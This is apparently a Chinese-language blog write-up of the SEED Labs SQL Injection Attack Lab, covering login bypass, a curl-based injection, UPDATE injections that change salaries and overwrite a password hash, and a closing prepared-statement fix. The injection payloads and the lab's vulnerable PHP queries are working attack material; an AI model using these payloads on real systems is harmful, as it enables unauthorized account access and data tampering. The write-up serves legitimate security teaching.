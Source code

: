 ```yaml
---
layout: post
title:  "【SEED Labs】SQL injection"
date:   2020-11-01 00:00:00 +0800
categories: 实验
tags: SEEDLab 安全
comments: 1
mathjax: true
copyrights: 原创
---
```


本文为 [SEED Labs 2.0 - SQL Injection Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Web/Web_SQL_Injection/) 的实验记录。

# 实验原理

SQL注入攻击通过构建特殊的输入作为参数传入Web应用程序，而这些输入大都是SQL语法里的一些组合，通过执行SQL语句进而执行攻击者所要的操作，它目前是黑客对数据库进行攻击的最常用手段之一。

# Task 1: Get Familiar with SQL Statements

启动 docker

```shell
dcbuild
dcup
```

然后进入 mysql 程序

```shell
dockps
docksh **
mysql -u root -p dees
```

> After running the commands above, you need to use a SQL command to print all the profile information of the employee Alice.

```mysql
use sqllab_users;
show tables;
desc credential;
select * from credential where Name='Alice'
```

<img src="./../assets/post/images/Oz14IRuBaf3ZENS.png" alt="image-20210722144514099" style="zoom:50%;" />

# Task 2: SQL Injection Attack on SELECT Statement

## Task 2.1: SQL Injection Attack from webpage

打开 [seed-server.com](http://www.seed-server.com/)

观察 unsafe home.php，看到里面有如下判断

```php
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
        nickname, Password
        FROM credential
        WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```

我们只需要把判断 Password 的部分屏蔽即可

```
admin';#
```

<img src="./../assets/post/images/AzXs2vQFEPSoLiY.png" alt="image-20210722145300064" style="zoom:50%;" />

## Task 2.2: SQL Injection Attack from command line

转换一下 url 编码即可

```shell
curl 'www.seed-server.com/unsafe_home.php?username=%27%3b%23'
```

得到

<img src="./../assets/post/images/oYJ9Ep5a6I7GnsN.png" alt="image-20210722150454000" style="zoom:50%;" />

看到已经显示了所有用户信息

## Task 2.3: Append a new SQL statement

注入

```plain text
Alice'; update credential set name=A where ID=1;#
```

可以看到注入不成功

<img src="./../assets/post/images/EuwMNsmyAal3YjC.png" alt="image-20210722150917741" style="zoom:67%;" />

# Task 3: SQL Injection Attack on UPDATE Statement

## Task 3.1: Modify your own salary

进入 Alice 修改个人资料的页面

观察 unsafe edit backend.php，看到有如下判断

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
        nickname=’$input_nickname’,
        email=’$input_email’,
        address=’$input_address’,
        Password=’$hashed_pwd’,
        PhoneNumber=’$input_phonenumber’
        WHERE ID=$id;";
$conn->query($sql);
```

注入

```
',salary='30000' where ID=1;#
```

<img src="./../assets/post/images/gGiR6Q3UlqtF7Zk.png" alt="image-20210722153947448" style="zoom: 50%;" />

## Task 3.2: Modify other people’s alary

这个和上面的几乎一模一样，比如我们把 Boby 的薪水改成 114514

```
',salary='114514' where ID=2;#
```

<img src="./../assets/post/images/pkiohbyqBA8dsE5.png" alt="image-20210722154549727" style="zoom:50%;" />

看到已经改掉了

<img src="./../assets/post/images/yMn3oTgsl5bmjAQ.png" alt="image-20210722154726908" style="zoom:50%;" />

## Task 3.3: Modify other people’s password

查看代码，看到密码采用的是 sha1，我们随便找个在线转换网站转换一下就好了。

<img src="./../assets/post/images/J1tbDONHnlpdCMr.png" alt="image-20210722155151501" style="zoom: 67%;" />

然后注入

```
',Password='1f82c942befda29b6ed487a51da199f78fce7f05' where ID=1;#
```

<img src="./../assets/post/images/GAreWY3vmxCNyaj.png" alt="image-20210722155300581" style="zoom:50%;" />

然后现在可以用密码 `888888` 成功登录 Alice 账号。

# Task 4: Countermeasure — Prepared Statement

登录 [seed-server.com/defense](http://www.seed-server.com/defense/)

这里我们需要将参数与查询分离。修改 unsafe.php，做如下改动

```php
$stmt = $conn->prepare("SELECT id, name, eid, salary, ssn
						FROM credential
						WHERE name = ? and Password = ? ");
$stmt->bind_param("ss", $input_uname, $hashed_pwd);
$stmt->execute();
$stmt->bind_result($id, $name, $eid, $salary, $ssn);
$stmt->fetch();
```

<img src="./../assets/post/images/YtBRjOc6n715wDI.png" alt="image-20210724202537000" style="zoom:50%;" />

可以看到，攻击失败了

<img src="./../assets/post/images/CFiGfJ219y7SDIB.png" alt="image-20210724201943781" style="zoom:50%;" />

# 实验总结

实验属于最简单的 SQL injection。主要的收获在于最后一个 Task，以前只知道怎么注入，很少研究过怎么防御。

